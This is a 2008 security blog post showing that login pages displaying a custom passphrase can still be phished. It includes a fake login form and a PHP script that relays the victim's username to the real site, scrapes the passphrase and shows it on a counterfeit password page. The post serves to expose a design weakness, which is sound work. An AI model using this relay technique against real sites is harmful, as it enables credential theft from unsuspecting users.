 ```yaml
---
title: How custom passphrases/pictures still don't protect against phishing
date: 2008-11-20
tags:
- security
---
```

As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Lets go:

<!--more-->

First off, all phishing starts with getting the user to a login page not at the respected domain.  So, lets just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

**`login.php`** @ fakedomain.com
```html
<form action="login2.php" method="post">
  <label>Username: <input name="username"></input><br></br>
  <em>Remember, you will be asked to verify your passphrase on the next page.</em>
  <br></br>
  <input type="submit" value="Login"></input>
</form>
```

Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Lets look at the page we'll be submitting to:

**`login2.php`** @ fakedomain.com
```php    
/** cutting out a lot of code - make sure its not empty, etc **/
$args = array ('username'=>$_POST['username']);
$uri = 'http://realdomain.com/login.do.php';
$opts = array(
  'http' => array(
    'method' => 'POST', 
    'header' => 'Content-Type: application/x-www-form-urlencoded', 
    'content' => http_build_query($args)
  )
);
$context = stream_context_create($opts);
$page_with_phrase = file_get_contents($uri, false, $context);

$doc = new DomDocument();
$doc->loadHTML($page_with_phrase );

$passphrase = $doc->getElementById('passphrase_node')->nodeValue;

// next login form page actually shows the 
// $passphrase phrase and asks for password
include('next_login_form.php');
```

Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named `div` or `span` with an id of `passphrase_node`.  Probably, in real life, you'd have to use a complex XPath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).
